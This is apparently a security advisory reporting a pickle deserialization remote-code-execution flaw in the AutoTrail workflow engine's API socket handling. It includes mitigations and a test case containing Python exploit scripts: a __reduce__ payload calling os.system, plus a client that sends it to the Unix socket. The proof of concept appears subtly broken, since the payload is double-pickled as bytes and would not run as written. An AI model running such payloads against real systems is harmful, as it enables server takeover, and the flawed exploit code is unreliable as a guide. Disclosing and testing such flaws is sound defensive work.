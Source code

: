 ### Vulnerability List

* Vulnerability Name: Deserialization Vulnerability in API Request Handling
* Description:
    1. An attacker crafts a malicious Python object designed to execute arbitrary code upon deserialization using `pickle`.
    2. The attacker serializes this malicious object using Python's `pickle.dumps()`.
    3. The attacker creates a seemingly valid API request, such as an `APIRequest` object, but replaces its content with the serialized malicious object.
    4. The attacker uses a `SocketClient` or a similar mechanism to send this crafted API request to the AutoTrail API server's socket.
    5. The `ConnectionServer` in `api/management.py`, upon receiving the request, uses `connection.recv()` to deserialize the data, which implicitly calls `pickle.load()`.
    6. Due to the deserialization of the malicious object, arbitrary Python code provided by the attacker is executed on the server.
* Impact:
    - Remote Code Execution (RCE). Successful exploitation allows an attacker to execute arbitrary Python code on the server hosting the AutoTrail workflow engine.
    - Full System Compromise. This can lead to a complete takeover of the server, including unauthorized access to sensitive data, modification of system configurations, and disruption of workflow operations.
* Vulnerability Rank: Critical
* Currently Implemented Mitigations:
    - None. The project utilizes `multiprocessing.Connection` for API communication, which inherently uses `pickle` for serialization without any explicit input validation or sanitization of API requests.
* Missing Mitigations:
    - Input Validation: Implement robust input validation for all API requests received by the `ConnectionServer` to ensure that only expected and safe data structures are processed.
    - Secure Serialization: Replace `pickle` with a safer serialization format like JSON or Protocol Buffers for API communication. These formats are less susceptible to deserialization vulnerabilities.
    - Secure Deserialization Practices: If `pickle` must be used, implement secure deserialization practices, such as signing and verifying serialized data to ensure integrity and origin, and sandboxing the deserialization process to limit potential damage from malicious payloads.
* Preconditions:
    - Network Accessibility: The AutoTrail API server socket must be reachable by the attacker. This is typical in networked applications or scenarios where the attacker has local access to the system running the AutoTrail instance.
    - Running API Server: The AutoTrail workflow engine with the API server component must be running and listening for connections on the designated socket.
* Source Code Analysis:
    - File: `/code/src/autotrail/core/api/management.py`
    - Class: `ConnectionServer`
    - Method: `__call__`
    ```python
    def __call__(self, *args, **kwargs):
        """This callable will serve a single request by calling the handler, sending the response and returning the
        relay value.
        ...
        """
        request = read_message(self._connection, self._timeout) # Vulnerable line
        logger.debug('Received request: {}'.format(request))
        if not request:
            return

        try:
            handler_response = self._handler(request, *args, **kwargs)
        except Exception as e:
            logger.exception(('Handler: {} failed to handle request: {}, with args={}, kwargs={} '
                              'due to error={}').format(self._handler, request, args, kwargs, e))
            return
        ...
    ```
    - File: `/code/src/autotrail/core/api/management.py`
    - Function: `read_message`
    ```python
    def read_message(connection, timeout=0.1):
        """Attempt to read a single message from the given multiprocessing.Connection object.
        ...
        """
        if connection.poll(timeout):
            try:
                return connection.recv() # Vulnerable line: connection.recv() uses pickle.load()
            except EOFError:
                pass
    ```
    - The `read_message` function is called by `ConnectionServer` to receive API requests.
    - `connection.recv()` from Python's `multiprocessing.Connection` uses `pickle` for deserialization, making it vulnerable to deserialization attacks if the incoming data is not trusted and validated.
    - The `APIRequest` class (`/code/src/autotrail/core/api/management.py`) and related API handling code do not include any input validation or sanitization mechanisms for the deserialized `request` object.

* Security Test Case:
    1. **Setup:**
        - Deploy an AutoTrail workflow instance locally or in a test environment where you can send network requests to its API socket.
        - Identify the socket file path used by the AutoTrail API server (e.g., `/tmp/validation_test.socket` as used in tests, or a user-configurable path).
    2. **Craft Malicious Payload:**
        - Create a Python script to generate a malicious pickled payload. This payload should execute a simple command on the server, like creating a file in `/tmp/`.
        ```python
        import os
        import pickle
        import multiprocessing.connection
        from autotrail.core.api.management import APIRequest

        class MaliciousPayload:
            def __reduce__(self):
                return (os.system, ('touch /tmp/pwned',))

        malicious_obj = MaliciousPayload()
        serialized_payload = pickle.dumps(malicious_obj)

        # Wrap in APIRequest to mimic a real API request structure
        api_request = APIRequest(method='status', args=[], kwargs={})
        api_request.args = [serialized_payload] # Inject payload as part of args. Can be kwargs as well

        wrapped_payload = pickle.dumps(api_request)

        with open("malicious_request.pickle", "wb") as f:
            f.write(wrapped_payload)
        ```
    3. **Send Malicious Request:**
        - Create another Python script to act as the attacker client. This script will read the serialized malicious payload and send it to the AutoTrail API socket.
        ```python
        import multiprocessing.connection

        socket_file = "/tmp/validation_test.socket" # Replace with your AutoTrail socket path

        with open("malicious_request.pickle", "rb") as f:
            malicious_request_data = f.read()

        try:
            client_conn = multiprocessing.connection.Client(address=socket_file, family='AF_UNIX')
            client_conn.send_bytes(malicious_request_data) # Send bytes directly, bypassing API client wrappers
            client_conn.close()
            print("Malicious request sent.")
        except Exception as e:
            print(f"Error sending request: {e}")
        ```
    4. **Execute Test:**
        - Run the attacker client script (`python attacker_client.py`).
    5. **Verify Exploitation:**
        - Check if the file `/tmp/pwned` has been created on the server running AutoTrail. If the file exists, it confirms successful remote code execution due to the deserialization vulnerability.
        - Examine the AutoTrail server logs for any errors or unusual activity that might indicate code execution.

This test case demonstrates how an attacker can leverage the deserialization vulnerability to achieve remote code execution by sending a crafted malicious payload to the AutoTrail API server.